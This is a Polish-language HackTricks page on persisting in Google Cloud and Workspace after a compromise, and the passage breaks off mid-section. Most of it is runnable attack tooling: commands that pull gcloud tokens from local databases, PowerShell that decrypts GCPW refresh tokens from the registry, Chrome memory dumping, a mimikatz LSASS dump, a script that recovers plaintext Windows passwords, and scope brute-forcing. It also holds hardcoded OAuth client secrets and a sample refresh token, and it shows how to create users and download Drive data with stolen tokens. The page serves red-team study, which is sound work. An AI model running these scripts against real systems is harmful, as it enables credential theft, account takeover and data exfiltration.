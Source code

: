 # GCP - Non-svc Persistance

{% hint style="success" %}


paLearn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

To są przydatne techniki, gdy w jakiś sposób skompromitujesz dane uwierzytelniające GCP lub maszynę działającą w środowisku GCP.

## Token Hijacking

### Authenticated User Tokens

Aby uzyskać **aktualny token** użytkownika, możesz uruchomić:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Sprawdź na tej stronie, jak **bezpośrednio użyć tego tokena za pomocą gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Aby uzyskać szczegóły dotyczące **generowania nowego tokena dostępu**, uruchom:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Możliwe jest również znalezienie tokenów odświeżania w **`$HOME/.config/gcloud/application_default_credentials.json`** oraz w **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Aby uzyskać nowy odświeżony token dostępu za pomocą **tokena odświeżania**, identyfikatora klienta i tajnego klucza klienta, uruchom:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Ważność tokenów odświeżania można zarządzać w **Admin** > **Security** > **Google Cloud session control**, a domyślnie jest ustawiona na 16h, chociaż można ustawić ją na nigdy nie wygasa:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Przepływ uwierzytelniania podczas korzystania z czegoś takiego jak `gcloud auth login` otworzy okno w przeglądarce, a po zaakceptowaniu wszystkich zakresów przeglądarka wyśle żądanie takie jak to do portu http otwartego przez narzędzie:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Następnie gcloud użyje stanu i kodu z pewnym zakodowanym na stałe `client_id` (`32555940559.apps.googleusercontent.com`) oraz **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`), aby uzyskać **ostateczne dane tokena odświeżania**.

{% hint style="danger" %}
Zauważ, że komunikacja z localhostem odbywa się w HTTP, więc możliwe jest przechwycenie danych, aby uzyskać token odświeżania, jednak te dane są ważne tylko 1 raz, więc byłoby to bezużyteczne, łatwiej jest po prostu odczytać token odświeżania z pliku.
{% endhint %}

### Zakresy OAuth

Wszystkie zakresy Google można znaleźć pod adresem [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) lub uzyskać je, wykonując:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Można zobaczyć, które zakresy aplikacja, którą **`gcloud`** używa do uwierzytelniania, może obsługiwać za pomocą tego skryptu:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Po wykonaniu tego sprawdzono, że ta aplikacja obsługuje te zakresy:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
to jest interesujące, aby zobaczyć, jak ta aplikacja obsługuje zakres **`drive`**, co może pozwolić użytkownikowi na eskalację z GCP do Workspace, jeśli atakujący zdoła zmusić użytkownika do wygenerowania tokena z tym zakresem.

**Sprawdź, jak to** [**wykorzystać tutaj**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Konta serwisowe

Podobnie jak w przypadku uwierzytelnionych użytkowników, jeśli uda ci się **skompromentować plik klucza prywatnego** konta serwisowego, będziesz mógł **uzyskać do niego dostęp zazwyczaj tak długo, jak chcesz**.\
Jednak jeśli ukradniesz **token OAuth** konta serwisowego, może to być jeszcze bardziej interesujące, ponieważ, nawet jeśli domyślnie te tokeny są użyteczne tylko przez godzinę, jeśli **ofiara usunie klucz API, token OAuth będzie nadal ważny aż do wygaśnięcia**.

### Metadane

Oczywiście, tak długo jak jesteś w maszynie działającej w środowisku GCP, będziesz mógł **uzyskać dostęp do konta serwisowego przypisanego do tej maszyny, kontaktując się z punktem końcowym metadanych** (zauważ, że tokeny OAuth, do których możesz uzyskać dostęp w tym punkcie końcowym, są zazwyczaj ograniczone przez zakresy).

### Remediacje

Niektóre remediacje dla tych technik są wyjaśnione w [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## GCPW - Google Credential Provider for Windows

To jest jednolity system logowania, który zapewnia Google Workspaces, aby użytkownicy mogli logować się na swoich komputerach z systemem Windows, używając **swoich poświadczeń Workspace**. Co więcej, to przechowa tokeny do uzyskania dostępu do Google Workspace w jakimś miejscu na komputerze.

Możliwe jest sprawdzenie, czy GCPW jest zainstalowane na urządzeniu, sprawdzając, czy istnieje następujący proces lub czy istnieją następujące klucze rejestru:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
W rzeczywistości w **`HKLM:\SOFTWARE\Google\GCPW\Users`** można znaleźć **domeny**, które są dozwolone do logowania w kluczu `domains_allowed`, a w podkluczach można znaleźć informacje o użytkowniku, takie jak e-mail, zdjęcie, nazwa użytkownika, czasy życia tokenów...

A w **`HKCU:\SOFTWARE\Google\Accounts`** można uzyskać dostęp do e-maila użytkownika oraz zaszyfrowanego **refresh token** jeśli użytkownik niedawno się zalogował.

### GCPW - Tokeny odświeżania w rejestrze

W rejestrze **`HKCU:\SOFTWARE\Google\Accounts`** może być możliwe znalezienie niektórych kont z zaszyfrowanym **`refresh_token`** wewnątrz. Metoda **`ProtectedData.Unprotect`** może łatwo go odszyfrować.

<details>

<summary>Uzyskaj <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> dane i odszyfruj refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Przykład wyjścia:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Jak wyjaśniono w [**tym wideo**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), jeśli nie znajdziesz tokenu w rejestrze, możliwe jest zmodyfikowanie wartości (lub usunięcie) z **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** i następnym razem, gdy użytkownik uzyska dostęp do komputera, będzie musiał się ponownie zalogować, a **token zostanie zapisany w poprzednim rejestrze**.

### GCPW - Tokeny odświeżania dysku

Plik **`%LocalAppData%\Google\Chrome\User Data\Local State`** przechowuje klucz do odszyfrowania **`refresh_tokens`** znajdujących się w **profilach Google Chrome** użytkownika, takich jak:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Możliwe jest znalezienie pewnego **kodu C#** uzyskującego dostęp do tych tokenów w odszyfrowanej formie w [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Ponadto, szyfrowanie można znaleźć w tym kodzie: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Można zauważyć, że używany jest AESGCM, zaszyfrowany token zaczyna się od **wersji** (**`v10`** w tym czasie), następnie [**ma 12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), a następnie ma **tekst szyfrowany** z końcowym **mac o długości 16B**.

### GCPW - Zrzucanie tokenów z pamięci procesów

Następujący skrypt można użyć do **zrzucenia** każdego procesu **Chrome** za pomocą `procdump`, wyodrębnić **ciągi** i następnie **wyszukać** ciągi związane z **tokenami dostępu i odświeżania**.

**Z mojego doświadczenia, nie znalazł żadnego tokenu zrzucającego procesy Chrome ani nawet procesu `gcpw_extension.exe`.**

<details>

<summary>Zrzut procesów Chrome i wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\path\to\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\path\to\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\ChromeDumps"
$targetString = "ya29" # "1//" for refresh_tokens

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for the target string in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$asciiStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_ascii_strings.txt"
$unicodeStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_unicode_strings.txt"

Write-Output "Extracting ASCII strings from $dumpFile"
& $stringsPath $dumpFile > $asciiStringsOutputFile

Write-Output "Extracting UTF-16 strings from $dumpFile"
& $stringsPath -u $dumpFile > $unicodeStringsOutputFile

Write-Output "Searching for '$targetString' in $asciiStringsOutputFile"
Select-String -Path $asciiStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}

Write-Output "Searching for '$targetString' in $unicodeStringsOutputFile"
Select-String -Path $unicodeStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}
}
```
</details>

### GCPW - Odzyskiwanie hasła w postaci czystego tekstu

Aby wykorzystać GCPW do odzyskania hasła w postaci czystego tekstu, można zrzucić zaszyfrowane hasło z **LSASS** za pomocą **mimikatz**:
```
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Następnie wyszukaj sekret taki jak `Chrome-GCPW-<sid>` jak na obrazku:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Następnie, z **tokenem dostępu** o zakresie `https://www.google.com/accounts/OAuthLogin`, możliwe jest zażądanie prywatnego klucza do odszyfrowania hasła:

<details>

<summary>Skrypt do uzyskania hasła w postaci czystego tekstu na podstawie tokena dostępu, zaszyfrowanego hasła i identyfikatora zasobu</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

### GCPW - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu go oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
\
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Zakresy

Domyślnie GCPW nie będzie miało dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brutalnego wymuszania zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
```
**Uzyskaj token dostępu ze wszystkimi tymi zakresem**:

<details>

<summary>Skrypt Bash do generowania tokena dostępu z refresh_token ze wszystkimi zakresami</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Kilka przykładów używając niektórych z tych zakresów:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** to dodatek do Google Workspace, który zapewnia narzędzia do przechowywania danych, wyszukiwania i eksportu danych Twojej organizacji przechowywanych w usługach Google Workspace, takich jak Gmail, Drive, Chat i inne.

* **Sprawa** w Google Workspace Vault to **pojemnik**, który organizuje i grupuje wszystkie informacje związane z konkretnym przypadkiem, dochodzeniem lub sprawą prawną. Służy jako centralny punkt zarządzania **Zatrzymaniami**, **Wyszukiwaniami** i **Eksportami** dotyczącymi danego zagadnienia.
